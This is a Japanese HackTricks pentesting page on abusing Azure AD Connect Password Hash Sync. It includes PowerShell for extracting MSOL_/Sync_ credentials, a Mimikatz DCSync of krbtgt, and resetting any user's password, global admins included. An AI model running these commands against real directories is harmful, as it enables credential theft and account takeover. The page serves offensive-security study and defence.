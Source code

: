 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告掲載したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**

</details>

## 基本情報

**パスワードハッシュ同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の一つです。**Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスに、ユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

これは、オンプレミスのADとAzure ADを同期するために企業が最も一般的に使用する方法です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**クリアテキストのパスワード**や**オリジナルのハッシュ**はAzure ADに送信されません。\
さらに、**ビルトイン**のセキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**と**アカウントの有効期限**はAzure ADで**同期されません**。そのため、**オンプレミスのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用してAzureリソースに**アクセスし続ける**ことができます。

オンプレミスのユーザーがAzureリソースにアクセスしたい場合、**認証はAzure ADで行われます**。

**PHS**は、**Identity Protection**やAADドメインサービスなどの機能に必要です。

## ピボット

PHSが設定されると、いくつかの**特権アカウント**が自動的に**作成されます**：

* アカウント**`MSOL_<installationID>`**はオンプレミスADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレミスADで**レプリケーション（DCSync）の権限**を持っていることを意味します。
* Azure ADには、**`Sync_<on-prem ADConnectサーバーの名前>_installationID`**というアカウントが作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたもの、またはクラウドのみ）の**パスワードをリセット**することができます。

これら2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**上のSQLサーバーに**保存されています**。管理者は、これらの特権ユーザーのパスワードをクリアテキストで抽出することができます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの一つから設定を抽出することが可能で、そのうちの一つは暗号化されています：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**暗号化された設定**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーのパスワードとAzureADの**Sync\_\***のパスワードが含まれています。したがって、これらを侵害することで、ADとAzureADへの権限昇格が可能になります。

これらの資格情報がどのように保存され、復号されるかの完全な概要は、[このトーク](https://www.youtube.com/watch?v=JEIR5oGCwdg)で見ることができます。

### **Azure AD connectサーバー**を見つける

Azure AD connectがインストールされている**サーバー**がドメインに参加している場合（ドキュメントで推奨されている）、それを見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump) も使用できます。
{% endhint %}

### Sync\_\* の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーのパスワード**のみを変更する**ことも可能です（それが予期せぬことであっても）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別の選択肢として、**サービスプリンシパルに特権的な権限を割り当てる**ことができます。**Sync** ユーザーはそれを行う**権限**を持っており、そのサービスプリンシパルに**アクセスする**ことで権限昇格の方法となります。
{% endhint %}

### シームレス SSO

PHSと一緒にシームレス SSOを使用することが可能で、これは他の悪用にも弱いです。以下で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見してください。私たちの独占的な[**NFTコレクション**](https://opensea.io/collection/the-peass-family)です。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有してください。

</details>
